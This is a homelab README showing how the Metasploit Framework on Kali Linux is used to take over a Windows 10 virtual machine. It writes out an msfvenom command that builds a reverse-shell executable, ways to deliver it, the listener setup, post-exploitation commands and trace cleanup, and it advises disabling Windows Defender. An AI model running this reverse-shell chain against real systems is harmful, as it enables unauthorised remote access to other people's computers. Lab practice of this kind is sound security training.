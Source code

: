 # Kali-Metasploit-Project-Homelab

# Metasploit Penetration Testing Project

## 📌 Overview
For my project I demonstrated the use of **Metasploit Framework** to exploit a **Windows 10 VM** using a **Kali Linux VM** as the attacker. It covers the full penetration testing process, from setting up the environment to executing post-exploitation techniques.

⚠️ **Disclaimer:** This project is for educational and ethical hacking purposes only. Unauthorized access to computer systems is illegal. Always obtain permission before testing.

---

## 🔧 Installation & Setup

### **1️⃣ Install VMware Workstation Pro**
- Download and install VMware Workstation Pro from [VMware’s official site](https://www.vmware.com/products/workstation-pro.html).

### **2️⃣ Set Up Virtual Machines**
#### **Kali Linux VM (Attacker)**
- Download the latest **Kali Linux** ISO from [Kali’s official website](https://www.kali.org/).
- Install Kali on VMware and ensure **Metasploit Framework** is installed:
  ```bash
  sudo apt update && sudo apt install metasploit-framework -y

Windows 10 VM (Target)
- Install a Windows 10 virtual machine.
- Disable Windows Defender to prevent automatic deletion of the payload.

3️⃣ Configure Network Settings
I used the Bridged Adapter for both VMs to allow network communication.
Check IP addresses:
ip a   # On Kali
ipconfig   # On Windows (Command Prompt)

🎯 Exploitation Steps
1️⃣ Generate Payload (Malicious Executable)
Run the following msfvenom command on Kali to create a reverse shell payload:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f exe > payload.exe

2️⃣ Transfer Payload to Windows 10
Use a USB drive:
- sudo cp payload.exe /media/kali/USB_NAME/
- python3 -m http.server 8080
- http://<Your_Kali_IP>:8080/payload.exe

3️⃣ Start the Metasploit Listener
Launch Metasploit and set up the exploit:
msfconsole #start metasploit
- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST <Your_Kali_IP>
- set LPORT 4444
- exploit

4️⃣ Execute Payload on Windows
Run payload.exe on Windows. If successful, Meterpreter will open:
meterpreter >

🔥 Post-Exploitation Techniques
Once inside Meterpreter, try these:

Check system info:
- sysinfo
- getuid
- screenshot

🛑 Cleanup & Exit
To remove traces and exit:
- rm C:\\Users\\Public\\payload.exe
- exit
- sessions -K

⚖️ Legal & Ethical Considerations
This project is intended for educational purposes only. Unauthorized penetration testing is illegal under the Computer Fraud and Abuse Act (CFAA). Only perform tests in authorized environments with explicit permission.

I hacked a windows 10 vm on my personal Virtual Machine! so if you plan on doing this, please be responisble! 

Always hack responsibly! 🚀

📜 License
This project is released under the MIT License. You are free to use, modify, and distribute it for educational purposes.
